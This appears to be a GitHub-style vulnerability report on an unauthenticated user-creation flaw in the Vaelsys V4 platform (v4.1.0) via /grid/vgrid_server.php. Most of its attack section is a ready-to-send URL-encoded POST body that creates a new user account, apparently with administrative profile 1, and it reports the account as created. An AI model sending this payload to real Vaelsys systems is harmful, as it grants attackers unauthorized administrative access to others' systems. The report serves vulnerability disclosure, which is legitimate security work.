


# Unauthorized User Creation Vulnerability Exists in Vaelsys V4 Platform

BUG_Author: waiwai

Affected Version: v4.1.0 

Vendor：[Vaelsys](https://vaelsys.com/)

Product: Vaelsys V4 

Vulnerability Files: /grid/vgrid_server.php

## Description

The Vaelsys V4 Platform suffers from a severe arbitrary user creation vulnerability. Attackers can exploit this flaw to create unauthorized user accounts, including those with administrative privileges, by submitting crafted POST requests to the `grid/vgrid_server.php` endpoint, bypassing all authentication and authorization controls.

Prerequisites: Valid PHP session ID (PHPSESSID) required; No authentication required.

## POC

Construct the username and password you want to add

```
xajax=save&xajaxr=1752633961171&xajaxargs[]=Users&xajaxargs[]=auth&xajaxargs[]=%3Cxjxquery%3E%3Cq%3E_qf__dataobjects_auth%3D%26id%3D%26password%3D123456%26username%3Dtest%26newpassword%3D123456abc%26repassword%3D123456abc%26expirationTime%3D%26profile%3D1%26language%3Den%26__submit__%3DSubmit%3C%2Fq%3E%3C%2Fxjxquery%3E
```



We can observe that the test user account has been successfully created in the web application.



